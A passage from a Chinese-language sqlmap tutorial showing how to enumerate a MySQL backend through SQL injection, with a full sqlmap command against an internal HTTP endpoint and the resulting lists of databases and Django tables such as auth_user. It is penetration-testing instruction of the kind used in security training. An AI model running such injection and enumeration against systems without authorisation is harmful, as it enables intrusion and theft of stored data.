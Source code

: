 
### 2.3 获取数据库 --dbs --current-db

`--dbs` 列出所有数据库

`--current-db` 当前数据库


	[11:46:17] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[11:46:17] [INFO] fetching current database
	current database: 'itapidb'
	[11:46:17] [INFO] fetching database names
	available databases [16]:
	[*] db_platform
	[*] information_schema
	[*] itapidb
	[*] mysql
	[*] performance_schema
	[*] sys
	[*] tests
	...
	...
	
	[11:46:17] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	


### 2.4 查询数据库的表 --tables

`-D '数据库' --tables`

	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 -D 'itapidb' --tables
	
	[14:17:31] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[14:17:31] [INFO] fetching tables for database: 'itapidb'
	Database: itapidb
	[36 tables]
	+---------------------------------------+
	| apis_basemailgroupmodel               |
	| apis_basemailmodel                    |
	...
	...
	| apis_depmailjobmodel                  |
	| apis_mailcapacitionmodel              |
	| apis_mailgroupcreatemodel             |
	...
	...
	| auth_group                            |
	| auth_group_permissions                |
	| auth_permission                       |
	| auth_user                             |
	| auth_user_groups                      |
	| auth_user_user_permissions            |
	| django_admin_log                      |
